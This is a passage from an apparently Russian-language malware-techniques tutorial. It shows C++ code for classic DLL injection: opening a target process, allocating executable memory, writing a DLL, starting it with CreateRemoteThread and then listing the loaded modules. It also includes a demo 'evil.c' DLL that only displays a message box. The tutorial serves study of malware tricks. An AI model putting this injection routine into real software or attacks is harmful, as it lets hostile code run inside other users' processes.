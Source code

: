 ```cpp

  HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  LPVOID rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);
  HANDLE rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);

  // enumerate modules
  printf("\nenumerate modules... \n");
  EnumerateLoadedModules(ph, (PENUMLOADED_MODULES_CALLBACK)PrintModules, NULL);

  CloseHandle(ph);
  return 0;
}
```

Для простоты, как обычно, моя "вредоносная" DLL - это просто `meow` messagebox (`evil.c`):    

```cpp
/*
evil.c
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/21/malware-tricks-25.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```
